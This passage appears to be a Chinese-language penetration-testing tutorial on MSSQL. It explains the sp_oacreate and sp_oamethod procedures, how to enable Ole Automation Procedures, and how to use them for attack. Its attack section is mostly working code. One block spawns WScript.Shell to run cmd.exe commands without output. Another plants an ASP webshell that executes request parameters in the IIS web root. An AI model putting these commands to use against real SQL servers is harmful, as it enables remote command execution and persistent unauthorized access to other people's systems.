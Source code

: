 ****

##### b. 语法

1. sp_oacreate是创建OLE对象的**实例**

   * sp_oacreate可以用于**对文件删除、复制、移动**等操作，可配合sp_oamethod调用系统**wscript.shell**来执行系统命令

     ```mssql
     语法
     	EXEC sp_OACreate @ProgID(@CLSID), @Object OUTPUT;
     ```

2. sp_oamethod是一个调用OLE对象的**方法**

   * 与sp_oacreate结合使用，分别用于**创建**和**执行脚本语言**

     ```mssql
     语法：
     	EXEC sp_OAMethod @Object, @MethodName, @ReturnValue OUTPUT, [@Parameter1, @Parameter2, ...];
     ```

3. 组合sp_oacreate、sp_oamethod可执行命令，但**无回显**

****

##### c. 流程

1. 启用sp_oacreate

   ```mssql
   EXEC sp_configure 'show advanced options',1;
   RECONFIGURE WITH OVERRIDE;
   EXEC sp_configure 'Ole Automation Procedures',1;
   RECONFIGURE WITH OVERRIDE;
   ```

2. 执行系统命令

****

##### d. 利用方法

###### ①只使用2个方法

1. 执行命令

```mssql
declare @shell int EXEC sp_oacreate 'wscript.shell',@shell output EXEC sp_oamethod @shell,'run','null','c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' 
	拆分如下：
declare @shell int 		//定义变量shell
EXEC sp_oacreate 'wscript.shell',@shell output 		//创建一个 WScript.Shell对象，并将其句柄赋值给变量shell
EXEC sp_oamethod @shell,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' //通过shell来执行系统命令
```

2. 写Webshell

```mssql
declare @o int,@f int,@ret int
EXEC sp_oacreate 'scripting.filesystemobject', @o out
EXEC sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
EXEC @ret=sp_oamethod @f,'writeline',NULL,'<%25execute(request("cmd"))%25>'
```
